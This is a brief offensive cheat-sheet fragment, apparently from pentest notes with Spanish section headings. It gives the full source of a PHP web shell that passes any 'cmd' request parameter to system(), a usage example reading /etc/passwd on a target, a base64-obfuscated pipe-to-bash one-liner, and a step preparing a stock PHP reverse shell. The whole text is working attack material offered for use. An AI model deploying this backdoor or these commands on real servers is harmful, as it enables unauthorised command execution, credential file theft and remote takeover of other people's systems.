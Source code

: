 ```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```

##### Ofuscación

```bash
echo+echo+'whoami'+|+base64+|+base64+-d+|+bash+|+bash
```

##### RevShells

```bash
cat /usr/share/webshells/php/php-reverse-shel.php > my_shell
```
